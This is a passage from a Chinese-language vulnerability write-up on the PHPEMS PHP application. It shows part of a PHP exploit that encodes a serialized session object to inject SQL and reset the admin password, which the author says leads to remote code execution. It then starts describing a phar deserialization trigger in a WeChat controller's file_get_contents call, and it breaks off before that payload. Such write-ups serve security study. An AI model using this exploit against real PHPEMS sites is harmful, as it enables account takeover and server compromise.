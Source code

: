 ```plain
        for($i = 0; $i < $il; $i++)  
        {  
            $p = $i%$kl;  
            $info[$i] = chr(ord($info[$i])+ord($key[$p]));  
        }  
        return urlencode($info);  
    }  
    $session = new \PHPEMS\session();  
    $array = array("sessionid"=>"123123123", $session);  
    echo serialize($array)."\n";  
    echo(urlencode(encode($array)))."\n";  
}
```

exec 中 虽然说用到了预处理，但是是 prepare 部分我们仍可以控制，那么这个预处理即使在这里那也是无效的，并不能防止注入  
[![](assets/1707954732-ddbbc9e0d384c6daa0eeecd62d199ff0.png)](https://cdn.nlark.com/yuque/0/2024/png/21588480/1706869385352-07c2fd14-5b8a-4df5-8945-1677b40b7520.png#averageHue=%232b2d32&id=lEUR8&originHeight=387&originWidth=783&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)  
使用上面的 exp 我们就能把后台密码修改为 123456，进入后台就能 RCE，这个我们下面在写

## 反序列化 2-phar(非预期)

phar 触发点在 app/weixin/controller/index.api.php 中的 file\_getcontents，其中$picurl 从 xml 数据中获取  
[![](assets/1707954732-b98c13a9d26a61f36a68d3fdf7ff28d1.png)](https://cdn.nlark.com/yuque/0/2024/png/21588480/1706869385442-8186eae6-49b6-444b-8cdb-afc6a29f7436.png#averageHue=%232a2d31&id=l3LO0&originHeight=368&originWidth=970&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)  
其触发 payload 为
